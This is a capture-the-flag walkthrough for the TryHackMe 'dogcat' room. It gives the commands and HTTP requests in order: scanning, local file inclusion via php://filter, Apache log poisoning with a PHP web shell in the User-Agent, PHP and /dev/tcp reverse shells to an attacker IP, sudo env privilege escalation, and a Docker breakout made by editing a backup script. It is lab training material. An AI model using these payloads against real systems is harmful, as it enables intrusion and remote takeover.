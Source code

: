 # dogcat

**Room Link:** [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog
```

**Kali**

```
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog/../index
```

**Kali**

```
echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4d
C9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+
CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJ
lZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0ci
kgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJle
HQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWlu
c1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICR
leHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogIC
AgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
http://10.10.228.190/?view=dog/../../../../etc/passwd&ext=
```

<figure><img src="../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.10.145.14",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/)

```
sudo -l
/usr/bin/env /bin/sh -p 
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Break out of Docker



We get a hint we're actually in a docker container

**Victim**

```
ls -lah /
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see there is a backups folder that tars the contents of /root/container since we have access to edit this file we modify the file with a reverse shell

**Victim**

```
cat /opt/backups/backup.sh
echo "sh -i >& /dev/tcp/10.10.113.93/1440 0>&1" >> /opt/backups/backup.sh
cat /opt/backups/backup.sh
```

**Kali**

```
nc -lvnp 1440
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>






